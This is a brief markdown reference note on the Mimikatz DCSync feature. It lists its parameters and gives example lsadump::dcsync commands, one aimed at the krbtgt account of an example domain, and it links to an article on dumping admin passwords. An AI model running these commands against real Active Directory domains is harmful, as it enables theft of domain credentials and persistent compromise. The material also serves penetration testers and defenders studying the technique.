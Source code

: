 # Binaries

## Mimikatz

/all – DCSync pull data for the entire domain.
/user – user id or SID of the user you want to pull the data for.
/domain (optional) – FQDN of the Active Directory domain. Mimikatz will discover a DC in the domain to connect to. If this parameter is not provided, Mimikatz defaults to the current domain.
/csv – export to csv
/dc (optional) – Specify the Domain Controller you want DCSync to connect to and gather data.
There’s also a /guid parameter.

```
mimikatz # lsadump::dcsync /domain:<fqdn> /user:<username>

mimikatz # lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt
```

---
## References

### ADSecurity

- [Active Directory Security: Dump Clear-Text Passwords for All Admins in the Domain Using Mimikatz DCSync](https://adsecurity.org/?p=2053)